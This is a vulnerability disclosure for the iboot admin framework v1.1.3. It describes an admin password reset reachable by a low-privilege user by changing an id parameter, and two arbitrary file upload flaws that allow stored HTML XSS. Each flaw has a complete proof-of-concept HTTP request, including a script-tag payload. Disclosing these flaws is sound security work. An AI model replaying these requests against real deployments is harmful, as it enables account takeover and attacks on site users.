 BUG_Author

Longlong Gong

# Project

Address: [iboot](https://gitee.com/iteaj/iboot/)

## 1、Logical loopholes

###  1.1、`/core/admin/pwd` Ordinary users changing administrator password

[Affected version]

v1.1.3



[Affected Component]

/core/admin/pwd



[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3



[Description]

There is a logical vulnerability in the id parameter of the `/core/admin/pwd` interface in the iboot backend management framework v1.1.3, which allows for the modification of passwords for management or any other user through this interface, resulting in low privileged users logging in as administrators

POC

```
POST /core/admin/pwd HTTP/1.1
Host: 192.168.1.184:8080
Authorization: session
x-requested-with: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Referer: http://192.168.1.184:8080/core/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1741931237,1741948074,1742043334; JSESSIONID=31B3E8CA0B98ED93CC1DD633AC20DF31
Connection: close
Content-Type: application/json
Content-Length: 52

{"password":"123456","surePassword":"123456","id":1}
```

![image-20250405165158782](assets/image-20250405165158782.png)

It can be seen that the demonstration user only has the permission to view. Here, by changing the ID of the password modification interface, the password for management can be directly modified

![image-20250405165309720](assets/image-20250405165309720.png)

Successfully logged into the administrator with the modified password

![image-20250405165347724](assets/image-20250405165347724.png)

## 2、File Upload

### 2.1、`/common/upload` Arbitrary File Upload

[Affected version]

v1.1.3



[Affected Component]

/common/upload



[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3



[Description]

There is an arbitrary file upload vulnerability in the `/common/upload ` interface of the iboot backend management framework v1.1.3, which allows uploading files with arbitrary suffixes, such as HTML-XSS

POC

```
POST /common/upload HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=979D2EA2CB07DA3F12DDF4DA381776A6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Length: 203

------WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: image/jpeg

<script>alert(1)</script>
------WebKitFormBoundary0OBgRzAzprfZAVQw--
```

We can see this upload interface for the code

![image-20250405172215611](assets/image-20250405172215611.png)

![image-20250405172238477](assets/image-20250405172238477.png)

The file suffixes here are directly concatenated without verification

![image-20250405172253503](assets/image-20250405172253503.png)

![image-20250405172316916](assets/image-20250405172316916.png)

Upload HTML XS and concatenate the path behind the host

http://192.168.1.184:8080/img/upload/common/cf8618b7-9ee5-4ffa-b6b9-f6f4c9720039.html

![image-20250405172158281](assets/image-20250405172158281.png)

### 2.2、`/common/upload/batch` Arbitrary File Upload

[Affected version]

v1.1.3



[Affected Component]

/common/upload/batch



[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3



[Description]

There is an arbitrary file upload vulnerability in the `/common/upload/batch ` interface of the iboot backend management framework v1.1.3, which allows uploading files with arbitrary suffixes, such as HTML-XSS

POC

```
POST /common/upload/batch HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=979D2EA2CB07DA3F12DDF4DA381776A6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Length: 203

------WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: image/jpeg

<script>alert(1)</script>
------WebKitFormBoundary0OBgRzAzprfZAVQw--
```

Use the interface above to send the package, obtain the path, and concatenate the paths to see that XSS is successful

![image-20250405172936729](assets/image-20250405172936729.png)

![image-20250405172955147](assets/image-20250405172955147.png)
